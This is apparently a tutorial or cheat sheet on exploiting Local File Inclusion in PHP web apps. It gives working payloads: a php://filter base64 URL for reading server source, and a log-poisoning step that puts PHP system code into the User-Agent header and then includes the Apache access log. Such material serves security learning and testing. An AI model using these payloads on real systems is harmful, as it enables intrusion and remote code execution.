 **Local File Inclusion (LFI)** is a web vulnerability that occurs when an application allows users to include local files from the server through manipulable parameters. 

## Identifying LFI

Look for parameters that might reference files, such as:

- `file=`
- `page=`
- `template=`
- `lang=`

**Example vulnerable URL:**
```bash
http://example.com/index.php?page=home.php
```

By manipulating the `page` parameter, you might access unintended files.

## Exploitation Techniques

#### Basic LFI 

Basic LFI occurs when an application directly includes a file based on user input **without proper validation**, allowing attackers to access and execute unintended files.

```bash
http://example.com/index.php?page=about.php
```
The application includes and executes `pages/about.php`. However, an attacker can manipulate this behavior to load arbitrary files.

#### Forcing PHP File Inclusion Without Execution

By default, including a `.php` file causes the server to execute it rather than display its source code. However, certain methods can bypass execution.

The `php://filter` wrapper allows you to manipulate file streams before execution. Using the `convert.base64-encode` filter, you can encode the PHP file's content and decode it locally.

```bash
http://<target>/vulnerable.php?file=php://filter/convert.base64-encode/resource=index.php
```
This returns the Base64-encoded content of `index.php`. Decode it with a tool or command:

```bash
echo "<base64_content>" | base64 -d
```

**Possible vulnerable files:**
- `index.php`
- `index.php.bak`
- `index.php.save`
- `.index.php.swp` 

#### Log Poisoning

Inject malicious PHP code into server logs and include the log file.

1. Send a request with malicious input in a header (e.g., `User-Agent`):
```bash
User-Agent: <?php system('id'); ?>
```

2. Access the log file:
```bash
http://example.com/index.php?page=/var/log/apache2/access.log
```